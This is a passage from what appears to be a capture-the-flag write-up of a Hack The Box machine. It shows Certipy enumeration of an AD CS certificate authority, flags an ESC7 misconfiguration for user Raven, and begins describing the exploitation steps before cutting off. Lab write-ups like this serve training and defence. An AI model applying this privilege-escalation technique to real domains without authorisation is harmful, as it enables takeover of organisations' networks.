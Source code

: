     [*] Finding certificate templates
    [*] Found 33 certificate templates
    [*] Finding certificate authorities
    [*] Found 1 certificate authority
    [*] Found 11 enabled certificate templates
    [*] Trying to get CA configuration for 'manager-DC01-CA' via CSRA
    [*] Got CA configuration for 'manager-DC01-CA'
    [*] Enumeration output:
    Certificate Authorities
      0
        CA Name                             : manager-DC01-CA
        DNS Name                            : dc01.manager.htb
        Certificate Subject                 : CN=manager-DC01-CA, DC=manager, DC=htb
        Certificate Serial Number           : 5150CE6EC048749448C7390A52F264BB
        Certificate Validity Start          : 2023-07-27 10:21:05+00:00
        Certificate Validity End            : 2122-07-27 10:31:04+00:00
        Web Enrollment                      : Disabled
        User Specified SAN                  : Disabled
        Request Disposition                 : Issue
        Enforce Encryption for Requests     : Enabled
        Permissions
          Owner                             : MANAGER.HTB\Administrators
          Access Rights
            Enroll                          : MANAGER.HTB\Operator
                                              MANAGER.HTB\Authenticated Users
                                              MANAGER.HTB\Raven
            ManageCertificates              : MANAGER.HTB\Administrators
                                              MANAGER.HTB\Domain Admins
                                              MANAGER.HTB\Enterprise Admins
            ManageCa                        : MANAGER.HTB\Administrators
                                              MANAGER.HTB\Domain Admins
                                              MANAGER.HTB\Enterprise Admins
                                              MANAGER.HTB\Raven
        [!] Vulnerabilities
          ESC7                              : 'MANAGER.HTB\\Raven' has dangerous permissions
    Certificate Templates                   : [!] Could not find any certificate templates



The last line is the most important! Raven has dangerous permissions,
with the label ESC7.

### ESC7

#### Add Manage Certificates

ESC7 is when a user has either the "Manage CA" or "Manage Certificates"
access rights on the certificate authority itself. Raven has ManageCa
rights (shown in the output above).

The steps to exploit this are on the
[Certipy](https://github.com/ly4k/Certipy) README.

First, I'll need to use the Manage CA permission to give Raven the
Manage Certificates permission:
